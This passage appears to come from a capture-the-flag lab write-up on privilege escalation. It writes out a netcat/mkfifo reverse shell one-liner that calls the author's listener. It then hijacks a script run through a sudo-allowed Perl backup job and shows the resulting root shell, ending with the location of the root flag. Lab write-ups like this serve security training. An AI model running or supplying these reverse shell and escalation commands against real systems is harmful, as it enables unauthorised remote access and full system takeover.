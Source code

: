 And for some reason, `/etc/copy.sh` has an reverse shell running out of it???

Created a reverse shell in the `/var/html/www/content` directory where user has shell access.

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.219 4442 >/tmp/f" >> /var/www/html/content/test.sh
```

Now to get `/home/itguy/backup.pl` to run the shell.. We can't `echo` to `backup.pl` directly, so instead we can try exploit the file it calls: `/etc/copy.sh`. 

Preferably removing the old reverse shell that's already in there...

```
echo "sh /var/www/html/content/test.sh" > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

We get shell on our other netcate listening on 4442.

```
kali@kali:~/Scripts/Python$ nc -lvp 4442
listening on [any] 4442 ...
connect to [10.11.8.219] from target.thm [10.10.221.127] 55646
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

Giving us root.

As for the flag, we can get it from `/root/root.txt`.



